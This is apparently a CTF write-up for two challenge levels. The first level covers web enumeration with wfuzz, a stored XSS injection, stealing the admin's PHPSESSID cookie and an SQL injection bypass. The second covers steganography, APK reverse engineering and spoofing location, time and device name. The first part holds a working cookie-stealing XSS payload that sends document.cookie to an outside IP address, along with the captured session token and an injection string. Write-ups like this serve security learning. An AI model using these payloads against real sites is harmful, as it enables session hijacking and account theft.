000000198:   200        0 L      0 W        0 Ch        "connect"             
000000237:   200        64 L     170 W      2422 Ch     "data"                
000000422:   200        60 L     181 W      2430 Ch     "index"               
000000489:   200        38 L     82 W       1208 Ch     "login"               
000000679:   200        8 L      18 W       166 Ch      "register"   
```

```sh
>> wfuzz -u http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/FUZZ.txt --hc 404 -w /usr/share/wfuzz/wordlist/general/megabeast.txt 

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/FUZZ.txt
Total requests: 45459

=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================

000035239:   200        2 L      4 W        47 Ch       "robots" 
```

The register.php is just a page mentioning that the registration is disabled. The login.php contains a username and password field. We tried a few injection techniques but nothing works, but we noted that there is a `PHPSESSID` cookie that is used to authenticate the user. 


On the data.php page, we noticed that the admin visits the records. With that in mind, perhaps we can steal the admin's `PHPSESSID` to bypass the login page?


We set-up an AWS server as a listener to listen for the cookie when the admin access the website. We then inject the cookie stealing Javascript payload via the POST parameter.

```php
<?php

$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,"http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/xcvlosxgbtfcofovywbxdawregjbzqta.php");
curl_setopt($ch,CURLOPT_POST,1);
curl_setopt($ch,CURLOPT_POSTFIELDS,"14c4b06b824ec593239362517f538b29=%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F54.169.35.112%3A8000%2F%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E%0A%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F54.169.35.112%3A1234%2F%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E");
//<script>var i=new Image;i.src="http://54.169.35.112:1234/?cookie="+document.cookie;</script>
$server_output=curl_exec($ch);

?>
```

Once injected, we run a Python simple HTTP server on our AWS server and patiently wait for the cookie.

```sh
>> python3 -m http.server 1234

Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
178.128.218.40 - - [08/Nov/2021 08:36:51] "GET /?cookie=PHPSESSID=4e5a5f5490afa3c2e8dd14b6d7e112fd HTTP/1.1" 200 -
```


Once we get the cookie, we use `burpsuite` to manipulate the cookie in the login.php page.


We were taken to the landing_admin.php page. The hint is that we have to manipulate the POST parameter, `filter`, to get the flag.


After playing around with several SQL injection queries with no progress, we remember that during `wfuzz` we found a robot.txt.


Maybe we can turn the debug mode on in landing_admin.php. I tried to trigger an SQL error with `'`. This time we get an error message.


Most of the special characters are blocked except for `' " ( ) #`. With that we can craft out the following SQL injection payload.

```
filter='or'1'#
```

We can get the flag.


```
TISC{H0P3_YOu_eNJ0Y-1t}
```
&nbsp;

## Level 7

```
The Secret
DESCRIPTION
Domains: Steganography, Android Security, Cryptography

Our investigators have recovered this email sent out by an exposed PALINDROME hacker, alias: Natasha. It looks like some form of covert communication between her and PALINDROME.

Decipher the communications channel between them quickly to uncover the hidden message, before it is too late.

Submit your flag in the format: TISC{flag found}.

ATTACHED FILES
Bye for now.eml
```

This is an saved email message. On opening it, we can see a message by Natasha.

```
GIB,

 

I’ll be away for a while. Don’t miss me. You have my picture :D

Hope the distance between us could help me see life from a different perspective. Sometimes, you will find the most valuable things hidden in the least significant places.

 

 

Natasha
```

Below it is a Base64 encoded string. We decode it using `CyberChef` and we get a png image.


We run `exiftool` on it and notice that there is a weird Chinese text in the description.

```sh
>> exiftool output.png

Image Description               : 瑞恩的巨蟒只喜欢最后一个比特
```

Translating it on Google gives us: `Ryan's python only likes the last bit`.

Running `zsteg` on it gives us a link to a data.zip file.

```sh
>> zsteg -a output.png
imagedata           .. file: Windows Precompiled iNF, version 0.1, InfStyle 1, flags 0xfe, has strings, src URL, volatile dir ids, verified, digitally signed, at 0xffff0100, WinDirPath "\364",, LanguageID 1, at 0xff01 SourcePath "\375", at 0xff000000
b1,rgba,lsb,xy      .. text: "https://transfer.ttyusb.dev/8S8P76hlG6yEig2ywKOiC6QMak4iGaKc/data.zip"
b1,abgr,lsb,xy      .. text: "i.h-lObh"
b2,b,lsb,xy         .. text: "DDUUEEUETDEUDU"
b3,r,msb,xy         .. file: Targa image data - RGB 65536 x 2 x 8 +8
b4,b,lsb,xy         .. file: Targa image data 4368 x 4369 x 16 +4369 +4368 - 1-bit alpha - right
b4,rgb,lsb,xy       .. file: Targa image data 4097 x 272 x 16 +256 +4112 "\001\020\001"
```

When we try to unzip data.zip, we are prompted to key in the password as well as a weird text is printed.


We reverse the string. Apparently the other half of the text is in Indonesian.

```
THINK AGAIN BEFORE CRACKING THINK BEFORE BREAKING
```

Maybe we are not supposed to crack it. Let's try to use `binwalk` to carve out the apk.

```sh
>> binwalk -e data.zip

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Zip archive data, encrypted at least v2.0 to extract, compressed size: 1532411, uncompressed size: 5867522, name: app.apk
1532553       0x176289        End of Zip archive, footer length: 77, comment: "LOBOBMEM MULEBES ULUD RIKIF GNIKCARC EROFEB NIAGA KNIHT"
```

We managed to extract the app.apk. Launching the app, we can see a "I'M IN POSITION" button followed by the current time in GMT, latitude, longtitude, data and flag. When we click the button, an error stating that we are "not near" appeared.


Let us open up the apk to investigate. Using `APK Studio`, we can decompile the apk to .smali and .java files. From the AndroidManifest.xml, we can locate the entry point, mobi.thesecret.MainActivity.


In MainActivity.java, notice that a Myth object is created.


In the Myth class, we can see that a `native-lib` library is loaded. There are also two suspicious functions declared.


In the lib directory, we found the library that is being loaded, depending on OS.


We open `libnative-lib.so` on `IDA` and decompile it (F5). The two distinctive functions as seen previously stand out.


We look into the getNextPlace() function first. Over here, we can see that two variables, which seems to be the longtitude and latitude, has to be within certain values to avoid getting the "Not Near" error.


We can also see that there are another two variables, which seems to be the time range to avoid getting the "Wrong Time" error.


In the getTruth() function, there is a check on device name to make sure that it is "GIB's phone" to avoid the error.


Summing them up, we need to:
1) Spoof the longtitude and latitude to 1.29,103.785.
2) Set the time to 2235HRS GMT.
3) Set device name to "GIB's phone".

As there are some issues with using an android emulator to spoof the location, We use a physical android device instead. We can use Fake GPS to spoof our location.



Setting the device name is easy.


We tried adjusting the time on the phone but it doesn't affect the time in the app. After poking around, we find out that the time is obtained from a url itself.


We set up a server to serve the same file but with different utc_datetime.

```sh
>> pwd

/home/ec2-user/listener/api/timezone/Etc/UTC

>> cat index.html

{"abbreviation":"UTC","client_ip":"128.106.214.64","datetime":"2021-11-11T22:35:49.801486+00:00","day_of_week":4,"day_of_year":315,"dst":false,"dst_from":null,"dst_offset":0,"dst_until":null,"raw_offset":0,"timezone":"Etc/UTC","unixtime":1636619449,"utc_datetime":"2021-11-11T22:35:49.801486+00:00","utc_offset":"+00:00","week_number":45}
```


Start the server with SimpleHttpServer.

```sh
>> sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We can modify the url to ours and recompile app.apk with apktool. However, there are issues recompiling it and I couldn't get a working recompiled version. Instead, I decided to modify the `hosts` file on our Android device to map the domain name "worldtimeapi.org" to our server IP. Since my Android device does not have root, I am unable to modify the `hosts` file directly. Luckily, I found an app called Strange VPN that helps to do so.


Running the app again, we are served with the time from my server.


Upon clicking multiple times later, we obtained the flag.

 


```
FLAG: TISC{YELENAFOUNDAWAYINSHEISOUREYESANDEARSWITHIN}
```

